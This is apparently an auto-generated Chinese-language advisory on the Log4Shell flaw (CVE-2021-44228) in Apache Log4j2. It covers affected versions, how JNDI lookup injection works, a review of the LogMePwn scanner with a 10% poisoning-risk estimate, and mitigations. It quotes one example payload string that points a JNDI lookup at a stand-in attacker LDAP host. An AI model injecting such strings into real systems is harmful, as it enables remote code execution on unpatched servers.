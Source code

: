 ## CVE-2021-44228 - Apache Log4j2 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响版本的 Log4j2，且允许出站网络连接。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228（Log4Shell）是一个严重的远程代码执行漏洞，存在于 Apache Log4j2 中。攻击者可以通过构造包含 JNDI 查找的恶意日志消息，从而在目标服务器上执行任意代码。漏洞利用方式如下：

1.  **漏洞原理：** Log4j2 允许在日志消息中使用 JNDI 查找，例如 `${jndi:ldap://attacker.com/evil}`。当 Log4j2 尝试解析这些查找时，它会连接到指定的 JNDI 服务器（例如 LDAP），并检索 Java 对象。如果攻击者可以控制日志消息的内容，他们就可以让 Log4j2 连接到恶意的 JNDI 服务器，该服务器会返回包含恶意代码的 Java 对象，Log4j2 反序列化这个对象从而导致任意代码执行。

2.  **利用方式：**
    *   攻击者需要找到一个途径，可以将恶意 JNDI 查找字符串注入到应用程序的日志消息中。这可能通过 HTTP 请求头、POST 请求参数、Websocket 消息等实现。
    *   攻击者控制的 JNDI 服务器（例如 LDAP 服务器）需要返回一个包含恶意代码的 Java 对象。这通常通过一个恶意的 Java 类来实现，该类在加载时执行任意代码。

3.  **漏洞代码评估：** 提供的漏洞利用代码看起来像一个通用的漏洞扫描器，可以扫描各种协议，并允许自定义 payload。它本身不包含直接的攻击载荷,但是如果扫描器被用于发送恶意 JNDI 查找字符串，则它就可以被用来触发 CVE-2021-44228。

4.  **投毒风险分析：** 虽然提供的CHANGELOG和LICENSE文件看起来无害，但仓库中其他未提供代码的可能性也存在。扫描器本身允许自定义payload，可能包含恶意软件，用户应该小心使用，因此存在一定的投毒风险（估计为 10%）。这个百分比考虑了代码扫描器可能被用来传播恶意 payload的可能性，即使其核心功能并非恶意。

5.  **缓解措施：**
    *   升级 Log4j2 到 >=2.17.1 版本。
    *   禁用 JNDI 查找功能（如果不需要）。
    *   设置 `log4j2.formatMsgNoLookups=true` 属性。


**项目地址:** [0xInfection/LogMePwn](https://github.com/0xInfection/LogMePwn)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)